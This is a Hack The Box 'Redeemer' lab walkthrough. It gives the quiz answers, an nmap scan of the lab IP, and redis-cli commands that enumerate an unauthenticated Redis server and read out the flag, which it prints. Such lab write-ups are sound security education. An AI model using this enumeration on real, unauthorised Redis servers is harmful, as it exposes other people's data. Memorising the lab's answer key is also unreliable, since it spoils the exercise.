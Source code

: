 ```yaml
---
title: "Redeemer Walkthrough HTB"
layout: post
categories:
    - Hack The Box
    - Tier 0
---
```


Redis is an open source (BSD licensed), in-memory data structure store used as a database, cache, message broker, and streaming engine. Redis provides data structures such as strings, hashes, lists, sets, sorted sets with range queries, bitmaps, hyperloglogs, geospatial indexes, and streams. Redis has built-in replication, Lua scripting, LRU eviction, transactions, and different levels of on-disk persistence, and provides high availability via Redis Sentinel and automatic partitioning with Redis Cluster.


---

💻️ The Target Machine is : 10.129.61.157

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Consider the command below:
```
-$ export IP=10.129.61.157 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.61.157
```

### Answering HTB Questions 

> Which TCP port is open on the machine? 
>> 6379

>  Which service is running on the port that is open on the machine? 
>> redis

>  What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database 
>> In-memory database

[**In-memory database**]() is a database that keeps data in the main memory aka RAM, therefore each time you query the DB or even update the DB then you basically access the main memory. There is no secondary memory usage in the operations. Hence, if the machine crashes the data is lost.

>  Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments. 
>> Redis-cli

>  Which flag is used with the Redis command-line utility to specify the hostname? 
>> -h

>  Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? 
>> INFO

>  What is the version of the Redis server being used on the target machine? 
>> 5.0.7

>  Which command is used to select the desired database in Redis? 
>> select

I wrote `select` because it is usually the go to command to access databases and tables more so when using SQL.
Up to this point I basically used help command to figure things out and move around, but I haven't been able to view the databases that are available let alone the tables.
The only thing to do now is research on redis and how it works 😅️.

After an enourmous time of googling here is what I found.

> Redis provides you with 16 databases starting from index 0 to index 15. You can switch to a database using the select command as:
```
127.0.0.1:6379> select 1
OK
127.0.0.1:6379[1]>
```
Use [this](https://linuxhint.com/redis-cli/) for reference.

Also, Redis is a NO-SQL type of database system. So that would mean that it is a non-relational DB 🤔️.

A tip that I found was to use this [site](https://book.hacktricks.xyz/welcome/readme) it is called hacktricks, a wonderful resource for knowledge in terms of ctfs.

In-depth reference would be from [cryptocat's](https://www.youtube.com/watch?v=usZ78an3jXE&t=6s) video.

 
>  How many keys are present inside the database with index 0? 
>> 4



>  Which command is used to obtain all the keys in a database? 
>> keys *


## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

---snip---

```
**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [scan.nmap]()

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine.

Okay let's put it all together, as shown below:
```
$ redis-cli -h $IP

10.129.61.157:6379> INFO

# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:66bd629f924ac924
redis_mode:standalone
os:Linux 5.4.0-77-generic x86_64
arch_bits:64

---snip---
```
The info command gives us details about the system.

```
10.129.61.157:6379> dbsize
(integer) 4
```
This just stated the size of the DB.
```
10.129.61.157:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```
To dump the whole database we use the command above, db0 basically denotes the index 0 which is a database. Notice that the number of keys are 4 and each key ought to have a value 🤔️.
```
10.129.61.157:6379> select 0
OK
10.129.61.157:6379> keys *
1) "numb"
2) "flag"
3) "temp"
4) "stor"
10.129.61.157:6379> get "flag"
"03e1d2b376c37ab3f5319922053953eb"
```
So I needed to select the database, which I did, there after list all the keys.
The * denotes list everything or include everything.
What is listed are basically keys and their data type is string.
To get the values you basically use the get command together with the key.

> Submit root flag
>> 03e1d2b376c37ab3f5319922053953eb
